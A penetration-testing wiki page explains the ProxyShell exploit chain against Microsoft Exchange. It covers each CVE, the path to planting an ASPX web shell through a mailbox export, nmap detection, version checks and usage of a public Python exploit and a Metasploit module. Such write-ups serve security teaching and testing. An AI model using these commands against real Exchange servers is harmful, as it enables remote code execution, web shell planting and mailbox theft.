 ```yaml
---
description: Chained CVE-2021-34473, CVE-2021-34523, CVE-2021-31207
---
```


# ProxyShell

## Theory

On BlackHat USA 2021, Orange Tsai (a 0-day researcher focusing on web/application security) revealed the three CVEs affecting Microsoft Exchange that chained together can result in arbitrary code execution on the server. They dubbed these vulnerabilities ProxyShell.&#x20;

**CVE-2021-34473**: Path confusion bug on the Microsoft Exchange Explicit Logon feature.\
Explicit Logon feature is a legitimate feature that enables users to open a new browser window of mailbox/calendar only under these conditions:

* The user’s permissions are required to be _‘Full Access’_.
* The mailbox or calendar is configured to publish.

When opening the new window, the Exchange Backend server reads the URI and parses it for receiving the mailbox address. It looks like:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

In order to exploit this vulnerability, the attacker just needs to replace the mailbox address with the following string: /autodiscover/autodiscover.json:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

When the Exchange Backend server reads this string, it does not perform the checks on the address like usual, the string leads the server to access all backend URLs with the NT AUTHORITY/SYSTEM permissions.

**CVE-2021-34523** Downgrade Privilege on Exchange in order to access the PowerShell backend.\
After achieving access to all Exchange Backend server URLs with the NT AUTHORITY/SYSTEM, we can use the Microsoft Exchange built-in feature called **PowerShell Remoting.** It aime to assist with administrative activities.\
However, the NT AUTHORITY/SYSTEM user **does not have a mailbox** and can not access the PowerShell command line interface, so the attacker needs to change his privilege level.

When the PowerShell backend receives requests it checks the _**X-CommonAccessToken**_. If the header does not exist, it uses another method that checks the CommonAccessToken in the **X-Rps-CAT** parameter. So, the attacker just needs to pass the X-Rps-CAT with the information he collected from the victim mailbox or from the default information from built-in mailboxes (to which he has access).This is how the attacker can downgrade his NT AUTHORITY/SYSTEM privileges to Exchange Admin.

\
**CVE-2021-31207:** Export user’s mailbox to receive Remote Code Execution\
At this point when the attacker has access to the PowerShell with the Exchange Admin, he just needs to make sure that the required _‘Import Export Mailbox’_ role is set to the impersonated user.\
If the role is not set, the attacker will need to execute the _New-ManagementRoleAssignment_ cmdlet.

```powershell
New-MailboxExportRequest -Mailbox user@domain.local -FilePath \\127.0.0.1\C$\path\to\shell.aspx
```

**The full attack flow look as follow:**

In order to create a WebShell on the Microsoft Exchange server when exporting the user’s mailbox, the attacker needs to deliver the payload via SMTP. However, when the payload arrives, it is encoded.&#x20;

So when sending the payload, the attacker needs to write the decoder in it and decode it.&#x20;

1. Send an email with the encoded WebShell payload via SMTP.
2. Launch PowerShell with a privileged PowerShell admin user.
   * Path confusion to receive the NT AUTHORITY/SYSTEM privileges and access all Exchange Backend server URLs (CVE-2021-34473).
   * Set the X-Rps-CAT parameter with the Exchange admin access token (CVE-2021-34523).
3. Execute commands inside the PowerShell session (CVE-2021-31207).
   * New-ManagementRoleAssignment to set the ‘Import Export Mailbox’ role to the impersonated user.
   * New-MailboxExportRequest to export the user’s mailbox to a specific desired path.

4\. Execute commands on the shell.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use the [http-vuln-exchange-proxychain.nse](https://github.com/GossiTheDog/scanning/blob/main/http-vuln-exchange-proxyshell.nse) nmap script to scan a target

```bash
nmap -p80,443 --script="http-vuln-exchange-proxyshell.nse" $IP

443/tcp open  https
    |_http-vuln-exchange-proxyshell:  ** Vulnerable to ProxyShell SSRPF **
```

If we have local access to the target running exchange, we can check it version using the following powershell command:

```powershell
#Method 1
PS> GCM exsetup |%{$_.Fileversioninfo}

#Method 2
PS> (Get-Command ExSetup.exe).FileVersionInfo.ProductVersion

ProductVersion   FileVersion      FileName                                                                             
--------------   -----------      --------                                                                             
15.02.0858.005   15.02.0858.005   C:\Program Files\Microsoft\Exchange Server\V15\bin\ExSetup.exe
```

We can now search for the exact Microsoft Exchange product version using [this microsoft link](https://learn.microsoft.com/fr-fr/exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019).\
\
Following versions are vulnerable :&#x20;

<table><thead><tr><th width="359">Version</th><th>Vulnerable ProductVersion</th></tr></thead><tbody><tr><td>Exchange 2013 CU23</td><td>&#x3C; 15.0.1497.15</td></tr><tr><td>Exchange 2016 CU19</td><td>&#x3C; 15.1.2176.12</td></tr><tr><td>Exchange 2016 CU20</td><td>&#x3C; 15.1.2242.5</td></tr><tr><td>Exchange 2019 CU8 </td><td>&#x3C; 15.2.792.13</td></tr><tr><td>Exchange 2019 CU9</td><td>&#x3C; 15.2.858.9</td></tr></tbody></table>

{% hint style="info" %}
All versions before May 11, 2021 are vulnerable
{% endhint %}
{% endtab %}

{% tab title="Exploit" %}
We can use [horizon3ai's python script](https://github.com/horizon3ai/proxyshell) to exploit this vulnerability

```bash
#Auto discover emails
python3 exchange_proxyshell.py -u https://<EXCHANGE-IP>

#Providing an email
python3 exchange_proxyshell.py -u https://<EXCHANGE-IP> -u user@domain.local
```
{% endtab %}

{% tab title="Exploit - Metasploit" %}
A Metasploit module is available to exploit ProxyShell

```bash
msf > use exploit/windows/http/exchange_proxyshell_rce
msf exploit(exchange_proxyshell_rce) > show targets
    ...targets...
msf exploit(exchange_proxyshell_rce) > set TARGET < target-id >
msf exploit(exchange_proxyshell_rce) > show options
    ...show and set options...
msf exploit(exchange_proxyshell_rce) > exploit
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://www.rezilion.com/blog/proxyshell-or-proxynotshell-lets-set-the-record-straight/" %}

